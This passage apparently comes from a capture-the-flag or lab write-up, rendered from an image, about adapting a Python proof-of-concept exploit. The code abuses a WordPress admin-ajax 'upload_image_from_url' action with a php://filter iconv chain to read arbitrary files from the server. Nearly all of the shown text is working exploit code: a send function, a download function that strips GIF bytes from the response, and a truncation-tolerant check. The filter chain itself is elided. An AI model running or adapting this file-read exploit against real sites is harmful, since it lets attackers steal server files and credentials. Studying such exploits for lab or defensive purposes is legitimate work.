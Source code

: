 
## Modify Exploit

There’s a POC skeleton script here.
I’ll download this and save it as `exploit.py`.
It’s using the Python ten exploitation framework, which uses classes and decorators to define the exploit.

---

## 🛠 Modifying the Exploit

### ✅ Updated Remote Class Methods

**`send()` function**:

```python
def send(self, path: str) -> Response:
    """Sends given `path` to the HTTP server. Returns the response."""
    url = f"{self.url}/wp-admin/admin-ajax.php"
    data = {
        "action": "upload_image_from_url",
        "url": tf.qs.encode(path),
        "id": 1,
        "accepted_files": "image/gif"
    }
    return self.session.post(url, data=data)
```

**`download()` function**:

```python
def download(self, path: str) -> bytes:
    """Returns the contents of a remote file."""
    gif_chain = "php://filter/convert.base64-encode|convert.iconv.855.UTF7|...|convert.base64-decode/resource="
    response = self.send(f"{gif_chain}{path}")
    url = response.json()["response"]
    if not url.startswith("http"):
        return b""
    content = self.session.get(url).content
    return content[6:]  # Remove GIF magic bytes prefix
```

---

### ✅ Fix Test for Partial Result

```python
def check_token(text: str, path: str) -> bool:
    result = safe_download(path)
    return text.encode().startswith(result)  # Allow for truncation
```

---